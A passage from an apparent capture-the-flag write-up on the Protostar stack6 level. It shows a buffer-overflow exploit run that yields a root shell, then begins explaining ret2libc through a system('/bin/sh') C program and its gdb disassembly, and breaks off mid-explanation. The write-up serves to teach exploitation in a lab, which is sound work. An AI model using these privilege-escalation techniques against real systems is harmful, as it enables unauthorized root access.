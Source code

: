 I remove **int3** from the script, and BUMPP, we successfully deal with the return address restriction in this level.

```shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT���������������������������������������������������������������������������������������������������������j
                                            X�Rh//shh/bin��1�̀
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

### Solution 2

Since this solution uses `Ret2libc`. I will start with a scenario that demonstrates **system** function to help grasp the concept more easily.

``` c
#include <stdlib.h>

void main() {
  system("/bin/sh");
}
```

Compile this C code and disassemble it using `gdb`:

``` shell
user@protostar:~$ gcc sys.c -o sys
user@protostar:~$ gdb ./sys
.....
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x10
0x080483cd <main+9>:    mov    DWORD PTR [esp],0x80484a0
0x080483d4 <main+16>:   call   0x80482ec <system@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) x/s 0x80484a0
0x80484a0:       "/bin/sh"
```

At this point, the program first pushes the address of the string ("/bin/sh" in this case) onto the stack as an argument for `system()`. Right after that comes the return address so that the execution can resume after the function.

So right now, our stack looks like this: 
